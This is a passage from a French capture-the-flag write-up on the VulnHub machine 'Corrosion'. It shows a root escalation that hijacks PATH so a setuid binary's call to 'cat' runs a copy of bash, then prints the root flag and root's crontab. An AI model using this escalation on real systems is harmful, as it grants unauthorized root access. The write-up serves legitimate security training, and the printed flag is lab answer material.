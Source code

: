Il s'avère en fait que le binaire est aussi setuid root par conséquent l'exploitation est possible directement.  

```plain
randy@corrosion:~/tools$ export PATH=/home/randy/tools:$PATH
randy@corrosion:~/tools$ vi /etc/hosts
randy@corrosion:~/tools$ cp /bin/bash cat
randy@corrosion:~/tools$ ./easysysinfo
Thu Oct 27 12:42:40 PM MDT 2022
root@corrosion:~/tools# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),121(lpadmin),133(sambashare),1000(randy)

root@corrosion:/root# cat root.txt 
FLAG: 4NJSA99SD7922197D7S90PLAWE 

Congrats! Hope you enjoyed my first machine posted on VulnHub! 
Ping me on twitter @proxyprgrammer for any suggestions.

Youtube: https://www.youtube.com/c/ProxyProgrammer
Twitter: https://twitter.com/proxyprgrammer
```

Dans la crontab de root on peut faire l'entrée qui fixait les permissions laxistes sur le fichier de log :  

```plain
root@corrosion:/root# crontab -l
# m h  dom mon dow   command

* * * * * chmod 775 -R /var/log/auth.log && echo 'Complete!' > /root/logs.txt
```


*Published October 27 2022 at 23:24*
